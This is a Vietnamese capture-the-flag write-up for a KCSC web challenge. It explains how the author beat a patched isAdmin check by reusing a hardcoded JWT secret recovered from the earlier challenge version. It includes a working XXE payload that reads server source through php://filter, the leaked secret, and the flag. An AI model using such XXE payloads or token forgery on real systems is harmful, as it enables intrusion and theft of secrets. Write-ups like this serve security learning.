

# TL;DR

Bài này giống với bài bản thường chỉ có điều là đã patch lỗ hổng trong hàm `isAdmin` của class `KCSC` khiến cho việc fake token là bất khả thi

Mình thành công giải được bài này theo hướng unintended bằng cách lấy secret mà class JWT sử dụng để tạo key **trong chall bản thường** do author quên để nó là random :vv

Sau đấy mình tạo token mới rồi giải y hệt bản thường là ra flag

Author có hint hướng intended là mình cần tìm xem còn phần nào của web mà mình chưa xài tới không nhưng tiếc là mình vẫn chưa tìm ra :(

# Exploit and get flag (Unintended)

Ở phiên bản này tác giả đá vá hàm `isAdmin` bằng cách vừa validate xem token có phải là một JWT token hợp lệ không vừa validate với secret của server

```php
public function isAdmin($token)
{
    if (!JWT::decodeToken($token) || !JWT::validateToken($token)) {
        return false;
    } else {
    $payload = JWT::decodeToken($token);
    if ($payload['role'] !== 'admin') {
        return false;
    }
    return true;
    }
}
```

Điều này khiến việc giải như bài trước là bất khả thi do bước đầu bị chặn vì ta không thể fake được token

Mình mất rất lâu ngồi mò source xem còn cái gì để khai thác nữa không thì cũng không tìm được gì cả

Cơ mà có một thứ mà mình khá chú ý ở trong `JWT.php`

```php
<?php

class JWT
{
    private static $secret = "REDACTED";
```

Secret key của cả hai phiên bản đều được hardcode vào trong source code nên mình nghĩ biết đâu nếu mình lấy được secret key ở chall bản thường thì đến bản này mình vẫn dùng lại được thì sao ^^

Và thế là mình mở lại chall trước rồi gửi request lấy file `JWT.php`

Thông qua `compose.yaml` mình biết được địa chỉ của web nằm ở `/var/www/html`

**compose.yaml**

```yaml
services:
  php-fpm:
    build: ./php-fpm
    volumes:
      - ./src:/var/www/html
    networks:
      - kcsc-network

  apache:
    build: ./apache
    ports:
      - "2019:80"
    volumes:
      - ./src:/var/www/html
    depends_on:
      - php-fpm
    networks:
      - kcsc-network

networks:
  kcsc-network:
    driver: bridge
```

**Payload**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/utils/JWT.php">]>

<admin>&xxe;</admin>
```

Decode nội dung trả về:


**Secret**: `b44a784d38b584cb651a2b47668cb7fbc9c351bf3d4d6029f1b27aa2196ac71d`

Sau khi mình thử lấy token thường ở chall revenge và ướm thử với secret key vừa lấy về thì nó đúng thật :OOO



Việc còn lại của mình chỉ là đổi role thành `admin` và giải y hệt bản thường là sẽ ra được flag

**Flag**: `KCSC{0hh_w40000_m07_l4n_nu4_m1nh_l41_chuc_mun9_b4n_d4_7r0_7h4nh_m07_7h4nh_v13n_cu4_kc5c_nh0000}`
